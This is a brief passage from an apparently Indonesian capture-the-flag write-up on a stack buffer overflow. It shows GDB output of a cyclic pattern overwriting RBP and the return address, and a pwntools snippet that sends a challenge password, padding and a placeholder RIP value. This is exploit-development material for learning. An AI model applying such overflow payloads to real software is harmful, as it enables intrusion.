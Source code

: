 ![Gdb](1.png)

terlihat jika alamat RBP ter-overwrite dengan pattern dari `cyclic(0x100))` dengan nilai `0x6e6361616d636161` dan RSP ter-overwrite dengan nilai `rsp 0x7ffe15f962a8 ◂— 'aacmaacnaac'`

```assembly
0x401354 <simple_say+122>    ret    <0x6e6361616d636161>
```

selanjutnya mencari jumlah buffer yang bisa mereplace `RIP` dan mencoba mereplacenya dengan alamat sementara

```python
padding = "A"*cyclic_find("aacmaacnaa")
RIP = p64(0x4242424242424242) # BBBBBBBB
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RIP)
```

jika berhasil, seharusnya `rsp` akan bernilai `BBBBBBBB` dan hasilnya

![Gdb2](2.png)
